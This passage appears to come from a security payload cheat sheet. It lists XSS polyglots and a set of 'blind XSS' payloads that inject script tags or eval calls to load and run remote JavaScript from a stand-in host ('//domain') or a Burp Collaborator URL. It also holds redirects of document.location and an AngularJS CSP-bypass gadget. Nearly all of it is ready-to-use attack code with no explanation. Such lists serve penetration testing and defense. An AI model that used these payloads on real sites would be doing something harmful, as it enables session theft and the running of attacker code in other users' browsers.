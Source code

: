 ```javascript
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template><svg/onload='/*--><html */ onmouseover=alert()//'>`
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert(test)//'">`
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+document.location=`//localhost/mH`//'>
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=document.location=`//localhost/mH`//>
```

### Blind XSS payloads

```markup
"><img src='//domain/xss'>
"><script src="//domain/xss.js"></script>
><a href="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">Click Me For An Awesome Time</a>
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//0mnb1tlfl5x4u55yfb57dmwsajgd42.burpcollaborator.net/scriptb");a.send();</script>


"><input onfocus="eval('d=document; _ = d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')" autofocus>


"><iframe onload="eval('d=document; _=d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')"> 


"><svg onload="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')" xmlns="http://www.w3.org/2000/svg"></svg>


"><video><source onerror="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">


"><body onpageshow="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">


<script>$.getScript("//domain")</script>


"><img src=x id=payload&#61;&#61; onerror=eval(atob(this.id))>


"><input onfocus=eval(atob(this.id)) id=payload&#61;&#61; autofocus>


<noscript><p title="</noscript><img src=x onerror=alert(1)>">


"><script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.1/angular.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>

<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
